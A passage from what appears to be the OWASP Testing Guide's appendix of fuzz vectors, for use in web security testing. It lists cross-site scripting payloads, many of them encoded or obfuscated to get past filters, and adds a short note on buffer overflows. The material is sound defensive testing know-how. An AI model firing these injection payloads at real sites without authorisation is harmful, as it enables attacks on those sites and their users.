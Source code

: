 This is a form of replacive fuzzing. In this category, the total number of requests is dependent on the number of fuzz vectors specified.

The remainder of this appendix presents a number of fuzz vector categories.

## Cross Site Scripting (XSS)

For details on XSS: [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

`>"><script>alert("XSS")</script>&`
`"><STYLE>@import"javascript:alert('XSS')";</STYLE>`
`>"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;`
`alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)>`
`>%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>`
`'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'`
`">`
`>"`
`'';!--"<XSS>=&{()}`
`<IMG SRC="javascript:alert('XSS');">`
`<IMG SRC=javascript:alert('XSS')>`
`<IMG SRC=JaVaScRiPt:alert('XSS')>`
`<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>`
`<IMGSRC=&#106;&#97;&#118;&#97;&<WBR>#115;&#99;&#114;&#105;&#112;&<WBR>#116;&#58;&#97;`
`&#108;&#101;&<WBR>#114;&#116;&#40;&#39;&#88;&#83<WBR>;&#83;&#39;&#41>`
`<IMGSRC=&#0000106&#0000097&<WBR>#0000118&#0000097&#0000115&<WBR>#0000099&#0000114&#0000105&<WBR>#0000112&#0000116:`
`&<WBR>#0000097&#0000108&#0000101&<WBR>#0000114&#0000116&#0000040&<WBR>#0000039&#0000088&#0000083&<WBR>#0000083&#0000039&#0000041>`
`<IMGSRC=&#x6A&#x61&#x76&#x61&#x73&<WBR>#x63&#x72&#x69&#x70&#x74&#x3A&<WBR>#x61&#x6C&#x65&#x72&#x74(`
`&<WBR>#x27&#x58&#x53&#x53&#x27&#x29>`
`<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">`
`<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">`
`<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">`

## Buffer Overflows and Format String Errors

### Buffer Overflows (BFO)

A buffer overflow or memory corruption attack is a programming condition which allows overflowing of valid data beyond its prelocated storage limit in memory.

For details on Buffer Overflows: [Testing for Buffer Overflow](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.14_Testing_for_Buffer_Overflow_OTG-INPVAL-014.md)

Note that attempting to load such a definition file within a fuzzer application can potentially cause the application to crash.
